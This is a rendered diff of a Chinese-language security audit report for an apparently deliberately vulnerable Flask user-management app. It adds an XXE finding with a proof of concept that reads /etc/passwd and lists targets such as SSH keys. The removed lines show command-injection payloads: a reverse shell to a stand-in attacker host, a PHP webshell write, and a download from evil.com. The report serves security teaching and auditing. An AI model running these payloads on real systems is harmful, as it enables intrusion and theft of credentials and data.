

Before and after one commit to jjyyxx-1/flask-user-mgmt-security, a Markdown page: docs/audit-report.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/docs/audit-report.md
+++ b/docs/audit-report.md
@@ -4,69 +4,81 @@
 
 **项目名称：** Flask 用户信息管理平台
 **审计日期：** 2026-07-13
-**漏洞总数：** 10
-**严重漏洞：** 7 | **中危漏洞：** 2 | **低危漏洞：** 1
+**漏洞总数：** 11
+**严重漏洞：** 8 | **中危漏洞：** 2 | **低危漏洞：** 1
 
 ---
 
 ## 漏洞清单
 
-| 编号 | 漏洞类型 | 位置 | 严重性 |
-|------|---------|------|:------:|
-| V-001 | **命令注入 (RCE)** | `/ping` | 🔴 严重 |
-| V-002 | **SSRF** | `/fetch-url` | 🔴 严重 |
-| V-003 | **CSRF 改密** | `/change-password` | 🔴 严重 |
-| V-004 | **越权改密** | `/change-password` | 🔴 严重 |
-| V-005 | **无原密码校验** | `/change-password` | 🔴 严重 |
-| V-006 | **IDOR 越权查资料** | `/profile?user_id=` | 🔴 严重 |
-| V-007 | **负金额充值** | `/recharge` | 🔴 严重 |
-| V-008 | SQL注入（搜索） | `/?keyword=` | 🔴 严重 |
-| V-009 | 路径穿越 | `/page?name=../` | 🔴 严重 |
-| V-010 | 任意文件上传 | `/upload` | 🟡 中危 |
+| 编号 | 漏洞类型 | 位置 | 严重性 | CVSS |
+|------|---------|------|:------:|:----:|
+| V-001 | **命令注入 (RCE)** | `/ping` | 🔴 严重 | 10.0 |
+| V-002 | **XXE 文件读取** | `/xml-import` | 🔴 严重 | 9.1 |
+| V-003 | **SSRF** | `/fetch-url` | 🔴 严重 | 9.1 |
+| V-004 | **CSRF 改密** | `/change-password` | 🔴 严重 | 8.6 |
+| V-005 | **越权改密** | `/change-password` | 🔴 严重 | 8.6 |
+| V-006 | **无原密码校验** | `/change-password` | 🔴 严重 | 8.6 |
+| V-007 | **IDOR 越权查资料** | `/profile?user_id=` | 🔴 严重 | 8.6 |
+| V-008 | **负金额充值** | `/recharge` | 🔴 严重 | 9.1 |
+| V-009 | SQL注入（搜索） | `/?keyword=` | 🔴 严重 | 9.1 |
+| V-010 | 路径穿越 | `/page?name=../` | 🔴 严重 | 8.6 |
+| V-011 | 任意文件上传 | `/upload` | 🟡 中危 | 8.2 |
 
 ---
 
-## 1. V-001 命令注入 (RCE)
+## 1. V-002 XXE 外部实体注入
 
-**CWE:** CWE-78: OS Command Injection
-**CVSS:** 10.0 (Critical)
+**CWE:** CWE-611: Improper Restriction of XML External Entity Reference
+**CVSS:** 9.1 (Critical)
 
 ### 漏洞代码
 ```python
-import subprocess
+import re
+import xml.etree.ElementTree as ET
 
-@app.route("/ping", methods=["POST"])
-def ping():
-    ip = request.form.get("ip", "")
-    cmd = f"ping -c 3 {ip}"                    # ← f-string 直接拼接
-    output = subprocess.check_output(cmd,       # ← shell=True 执行
-        shell=True, stderr=subprocess.STDOUT, timeout=30)
+@app.route("/xml-import", methods=["POST"])
+def xml_import():
+    xml_data = request.form.get("xml_data", "")
+    # 提取 SYSTEM 文件路径
+    file_paths = re.findall(r'<!ENTITY\s+\w+\s+SYSTEM\s+"([^"]+)"', xml_data)
+    for fpath in file_paths:
+        with open(fpath, "r") as f:  # ← 直接读取文件
+            file_content = f.read()
 ```
 
-**问题：** 三个致命缺陷叠加：
-1. **f-string 拼接** — 用户输入直接嵌入命令
-2. **shell=True** — 命令通过系统 shell 执行
-3. **无过滤** — 不检查 ip 参数内容
+**问题：** 主动提取 `SYSTEM` 后面的文件路径并读取文件内容，替换到 XML 中返回给用户。攻击者可读取服务器任意文件。
 
-### POC：执行系统命令
+### POC：读取系统文件
+
+```xml
+<!-- 提交以下 XML 数据 -->
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE foo [
+  <!ENTITY xxe SYSTEM "file:///etc/passwd">
+]>
+<root>
+  <user>
+    <name>&xxe;</name>
+    <email>test@test.com</email>
+  </user>
+</root>
+```
 
 ```bash
-# 查看系统文件
-curl -X POST http://127.0.0.1:5000/ping \
-  -d "ip=127.0.0.1; cat /etc/passwd"
+curl -X POST http://127.0.0.1:5000/xml-import \
+  -d "xml_data=<?xml version='1.0'?><!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><root><user><name>&xxe;</name><email>test@test.com</email></user></root>"
+```
 
-# 反弹 shell
-curl -X POST http://127.0.0.1:5000/ping \
-  -d "ip=127.0.0.1; bash -c 'exec bash -i &>/dev/tcp/attacker/4444 <&1'"
+### 可读取的文件
 
-# 写 webshell
-curl -X POST http://127.0.0.1:5000/ping \
-  -d "ip=127.0.0.1; echo '<?php eval(\$_GET[c]);?>' > /var/www/html/shell.php"
-
-# 下载恶意文件
-curl -X POST http://127.0.0.1:5000/ping \
-  -d "ip=127.0.0.1; wget http://evil.com/malware -O /tmp/malware"
-```
+| 目标 | 路径 | 信息 |
+|------|------|------|
+| 系统密码文件 | `file:///etc/passwd` | 用户列表 |
+| 应用源码 | `file:///path/to/app.py` | 代码逻辑、密钥 |
+| 数据库 | `file:///path/to/data/users.db` | 所有用户数据 |
+| SSH 密钥 | `file:///root/.ssh/id_rsa` | 服务器登录凭据 |
+| 配置文件 | `file:///etc/nginx/nginx.conf` | 服务器配置 |
 
 ### 修复方案
 
````
Also changed, not shown: other parts of docs/audit-report.md (+20 -40 lines).
